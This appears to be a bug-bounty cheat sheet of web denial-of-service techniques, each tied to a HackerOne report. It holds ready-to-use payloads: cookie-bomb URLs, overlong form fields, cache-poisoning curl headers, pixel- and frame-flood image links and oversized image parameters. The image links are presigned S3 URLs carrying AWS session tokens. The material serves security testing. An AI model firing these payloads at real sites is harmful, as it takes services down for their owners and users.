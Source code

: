 # Denial of Service

1. Cookie bomb
```
https://target.com/index.php?param1=xxxxxxxxxxxxxxxxxxxxxx
```
After input "xxxxxxxxxxxxxxxxxxxxxx" as a value of param1, check your cookies. If there is cookies the value is "xxxxxxxxxxxxxxxxxxxxxx" it means the website is vulnerable

References: [Hackerone #105363](https://hackerone.com/reports/105363)

2. Try input a very long payload to form. For example using very long password or using very long email
```
POST /Register
[...]

username=victim&password=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

References: [Hackerone #840598](https://hackerone.com/reports/840598)

3. Cache poisoning, can using header "X-Forwarded-Port" or "X-Forwarded-Host"
```
curl -H "X-Forwarded-Port: 123" https://target.com/index.php?poison=1
```
```
curl -H "X-Forwarded-Host: target.com:123" https://target.com/index.php?poison=1
```

Reference: [Hackerone #409370](https://hackerone.com/reports/409370)

4. Pixel flood, using image with a huge pixels

Download the payload: [Here](https://hackerone-us-west-2-production-attachments.s3.us-west-2.amazonaws.com/000/000/128/5f5a974e5f67ab7a11d2d92bd40f8997969f2f17/lottapixel.jpg?response-content-disposition=attachment%3B%20filename%3D%22lottapixel.jpg%22%3B%20filename%2A%3DUTF-8%27%27lottapixel.jpg&response-content-type=image%2Fjpeg&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=ASIAQGK6FURQYFO7EZHL%2F20200910%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20200910T110133Z&X-Amz-Expires=3600&X-Amz-SignedHeaders=host&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEFIaCXVzLXdlc3QtMiJGMEQCIGgY3dUtffr4V%2BoxTJaFxc%2F7qjRodT3XLyN1ZLEF8%2FhfAiAXklx1Zvy3iKIGm1bocpDUP1cTx46eTbsDOKqRC93fgyq0AwhbEAEaDDAxMzYxOTI3NDg0OSIMH9s8JiCh%2B%2FNADeibKpEDocuqfbmxkM5H5iKsA3K4RuwcxVT9ORLJrjJO%2FILAm%2BcNsQXTgId%2Bpw1KOLkbFKrq0BQIC6459JtfWqHPXvDC7ZJGboQ%2FXE0F%2BAZQa6jaEyldrkKuDewNy5jy3VX1gquS%2BWrGl%2BGhwmXB4cg1jgOugGUsC%2FxD%2BcragIJAtGA7lp3YdcL%2FiQbnvuzmLP8w%2FyCHPUrpOw94bPOk8fpetOJoLmDfXZdL3hLGBEUGS7dSOoyebLSXGZDctkSpnXCq383lWYWYn0LSv1ooVvuCVzgxE%2BZi4b4QvLjjMG3FJdEX%2BDYmnDvnSrRoDtyj8bD3cP3xbZ3jaNYRbIlQTm2zR1DgoaDGE74FmpZWHcyC8zK0V6AKG6OzkcIaGRnGdDNSpZkN0DrWE7uY6BLiIGY16rflYOaElnbxijoMNDsU3MZH8gGk7crYJ%2FCeHeayInPBDgiREBgn7orAIjOY3xg8vzwKO96a90LmkK7wk977TbKfLIng1iNP9EMKYDjGePdBYDML9zBeqhO5LrVH%2BfbwzG5GXi0w5fnn%2BgU67AFRBwMChVRr%2FLW4j0PqpXUeN5ysVIuagoqSwqOhfwI9rtk56zTuGhO3du4raY5SOQ9vSkRdYHhga%2BW7oQTByD1ISiSaOjHs1s%2FrNfvIfMA8r0drPSykOdCuV2A5NhBpEPpT%2BuOosogdPihcORhO3hbcQJ9y4uxBsaBSJr%2F8S2CGjwZw7SOGmNaNFsPu%2BMRbYDA%2FH2eUMBl96w6KpUuNAXEPUcfq3weRMP1vXW62S4OyniYJ6DEVRkkE4eFZMUqy4c94uwSAegK54Po0V0sPM%2FncTESCgBf7Qe2zZlPhdRGZR%2F25cF6JTH0t2VIRQw%3D%3D&X-Amz-Signature=a837cb6b26bf437fa5008695310a21788918081c36e745d286c5cba9fd4a78e0)

References: [Hackerone #390] (https://hackerone.com/reports/390)

5. Frame flood, using GIF with a huge frame

Download the payload: [Here](https://hackerone-us-west-2-production-attachments.s3.us-west-2.amazonaws.com/000/000/136/902000ac102f14a36a4d83ed9b5c293017b77fc7/uber.gif?response-content-disposition=attachment%3B%20filename%3D%22uber.gif%22%3B%20filename%2A%3DUTF-8%27%27uber.gif&response-content-type=image%2Fgif&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=ASIAQGK6FURQ245MJJPA%2F20200910%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20200910T110848Z&X-Amz-Expires=3600&X-Amz-SignedHeaders=host&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEFMaCXVzLXdlc3QtMiJHMEUCIEC768ifpRHeEUucuNuVL%2FdcSsWMnGeNp%2FMhKs6afB01AiEAiZOP%2FwMaeQMITUni3aFcACIOqOHnWHgLKuXHRrb5LooqtAMIXBABGgwwMTM2MTkyNzQ4NDkiDHHy9PJ2ccl9cmsvyCqRA6bliBHBMPXR6NYflM%2BCXCCQ5VLdPCATpmLs9DhVuYsjxR3JUtVHnBvtfEYYWDWWsLoC3xuzmug5ycrAvqK%2BTYDYO7l4HD1rXfyEBkR579ZlUFab6bOL4i8nDqblun%2FeV253Sgd6GzL4E%2FXmUN%2FC6qNydSd9hp2fLoyNjqob6o5zJjmnqvZsq50ROOZwf1idkDtr163qeVZERnan7aY9rM%2FsX4iVdE4wY0rLw1maGRuDF2aLVCxPB681htsHt%2FpoZ18QY7LjcbNjbjB4PgXLd1sm5zQ4q9mPVxTZPvzo9BJCh7l6kMLHCtJXOXfrvvN8UBgIqr1KXvodzv7FRQYcvEpfw4pwCTWzBs8VeEcwS9gjOXFMNLNI8SZ9V76VQ5KrOIpKhzM9UQQN3DVzY3SwMHydX%2B%2BYcQTt%2FjvqTkorsltqob2g5E1K0U8btRLBvBqOo0Vbr75zLcLUUomDBQzSNSvJgTN43huYmkZxBpWAAId72Tt6m56aFQLXkCKGSoMxYjrrVW9jc37pVl3lZU7FIX0AMIuN6PoFOusBpDCrjFwR1Y7t7W8wLapYjI6yOkkvWTFwWvx38jZl9okqo5xchKolmKxKX7cfGPIyuUmSXc1xa0nKwYeOYlhQZfyI0NobqyWW81ITuuUjsBxULuqrXqfVl0PTjTTpqe%2FHvU6wYSE358XfggtcqaH9PPgNDOejgv%2FLnh9AH9nyqIWuaCu865IfAOupVVzFzQilyB2LDyQtTS4Kp5dHyEAibRQlqeKHWOkUE2mQefAaTxKLRKrs0mJQYSuC%2B4LQEB3Cq9Nhj5HN%2BYT7A7CDLrvyChyfYXQZYr0lR1jN91Yd7SBe2jB1Qls%2Bx%2FEUlQ%3D%3D&X-Amz-Signature=910a3812cf3b69f6fa72f39a89a6df2f395f8d17ef8702eeb164a0477c64fff5)

References: [Hackerone #400] (https://hackerone.com/reports/400)

**Rare cases**
1. Sometimes in website we found a parameter that can adjust the size of the image, for example
```
https://target.com/img/vulnerable.jpg?width=500&height=500
```
Try change "500" to "99999999999"
```
https://target.com/img/vulnerable.jpg?width=99999999999&height=99999999999
```

References: [Hackerone #751904](https://hackerone.com/reports/751904)

2. Try changing the value of the header with something new, for example:
```
Accept-Encoding: gzip, gzip, deflate, br, br
```

References: [Hackerone #861170](https://hackerone.com/reports/861170)

3. Sometimes if you try bug "No rate limit", after a long try it. The server will go down because there is so much requests

References: [Hackerone #892615](https://hackerone.com/reports/892615)

